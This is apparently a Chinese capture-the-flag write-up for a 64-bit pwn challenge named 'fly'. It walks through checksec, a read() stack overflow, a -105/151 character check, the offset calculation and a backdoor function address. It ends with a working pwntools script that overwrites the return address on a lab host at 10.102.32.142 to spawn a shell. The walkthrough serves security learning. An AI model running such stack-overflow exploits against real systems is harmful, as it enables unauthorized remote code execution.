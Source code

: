 # fly

先checksec一下
![](./fly1.png)

64位且可以进行栈溢出
然后我们阅读程序代码
![](./fly2.png)

read函数可以进行栈溢出，但进入if中我们需要找到一个字符使它的ASCII码值为-105
关于ASCII码为负值的原因可以参考：
https://blog.csdn.net/kelehaier/article/details/59560419
据此我们可以计算出实际的ASCII码为151
然后我们查看buf的栈
![](./fly3.png)

起始地址为0xD0
溢出值为：`offset = 0xD0+0x08`

找到后门函数:
![](./fly4.png)
后门函数起始地址为：
![](./fly5.png)

构造payload为：`payload = b'a'*offset+p64(0x40086E)`
exp:
```python
from pwn import *
r = remote("10.102.32.142", 23961)
ch = chr(151)
offset = 0xD0+0x08
r.sendline(ch)
payload = b'a'*offset+p64(0x40086E)
r.sendline(payload)
r.interactive()
```

成功拿到shell
![](./fly6.png)
